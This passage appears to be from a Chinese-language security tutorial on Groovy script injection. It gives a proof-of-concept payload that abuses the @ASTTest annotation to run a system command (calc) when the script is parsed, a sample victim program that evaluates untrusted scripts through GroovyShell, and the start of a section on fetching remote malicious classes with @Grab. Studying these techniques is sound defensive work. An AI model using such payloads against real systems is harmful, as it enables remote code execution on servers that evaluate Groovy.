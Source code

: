 利用AST注解能够执行断言从而实现代码执行

```java
//@AST注解执行断言
this.class.classLoader.parseClass("""
    @groovy.transform.ASTTest(value={
        assert Runtime.getRuntime().exec("calc")
    })
    def x
""")
```

模拟受害者：

```java
package pers.groovy

class TestScript {
    static void main(String[] args) {
        //加载恶意脚本
        GroovyShell shell = new GroovyShell()
        shell.parse(new File("E:\\Tomcatproject\\demo\\src\\main\\java\\pers\\groovy\\Test.groovy")).run();
    }
}
```

![image-20220420165003323](README/image-20220420165003323.png)

##### @Grab注解加载远程恶意类

Grape是Groovy内建的一个动态Jar依赖管理程序，允许开发者动态引入不在ClassPath中的函式库

需要导入`ivy`依赖，不然会报错(你可以试试)

```java
<dependency>
    <groupId>org.apache.ivy</groupId>
    <artifactId>ivy</artifactId>
    <version>2.4.0</version>
</dependency>
```
